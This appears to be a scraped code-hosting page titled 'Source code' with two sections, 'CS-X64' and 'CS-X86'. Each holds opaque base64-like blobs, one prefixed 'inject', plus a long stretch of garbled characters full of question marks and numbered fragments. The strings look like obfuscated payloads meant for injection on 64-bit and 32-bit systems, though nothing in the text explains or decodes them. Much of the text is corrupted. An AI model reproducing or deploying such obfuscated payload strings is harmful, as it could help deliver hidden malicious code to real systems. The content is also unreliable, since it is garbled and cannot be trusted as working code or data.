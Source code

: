 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

tyujte33|2,?%;6?,S;?1????0????,????,;14,?3;18?,o;22??,F;????26,5?;3???0,?L;34,?x;?3????8??,?D;42,???X;46,?k;50,????m;????54,G;??58,M?;6????2?,3??;66,9???;70,????8;7???4,t;?78,r;??8???2,L;??86????,F;????90,????k;9????4,h???;98???,????w;102??,k;10????6,r;????110,??R;1????14?,H;11??8,???l;?122????,K;??126,?g;???130,??k;???|hAr%???C0????hS??6m???l?,9YY3???xyCo??z?U2F0L??A5v??hIL??xDn??xCLM?DV???nBX???rN???LkNB??qmyU????2GT??9lM1????053???g????Dv???9?D??Ze???8Vn????Dt5????w0????rwl?v?LzU?Y???F09?zkn?x0h3l?jwzLN?k??Vm???A????rvgHR??hz??mHBVw????l????PfBK9??II?gG?m=k=erggv
htrdhFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTucHcs=tyhjt

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
